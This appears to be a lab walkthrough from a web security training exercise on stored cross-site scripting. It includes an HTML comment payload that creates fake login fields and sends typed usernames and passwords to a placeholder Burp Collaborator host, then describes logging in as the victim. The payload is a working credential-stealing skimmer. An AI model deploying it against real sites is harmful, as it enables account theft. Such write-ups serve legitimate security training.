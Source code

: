 # Lab: Exploiting cross-site scripting to capture passwords

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/78e74b92-06c9-4f1e-95c6-b6269c94f1a5)

## Solution

Go to burp collaborator, start it and click on **Copy to clipboard** to get a subdomain.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d7bb04d0-34b5-475b-9643-b93882161a25)

Use the below payload and give it as comment in any post.

```HTML
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0ee88b1b-5c58-421b-bfac-da53fba059fd)

The victims username and password will be visible in the request body recived in burp collaborator.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b70d91b8-ec39-406a-bcd7-4989bea7617a)

Use the above acquired username and password to login as victim.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/744be71d-0992-4994-bfae-40120dbdc3ef)
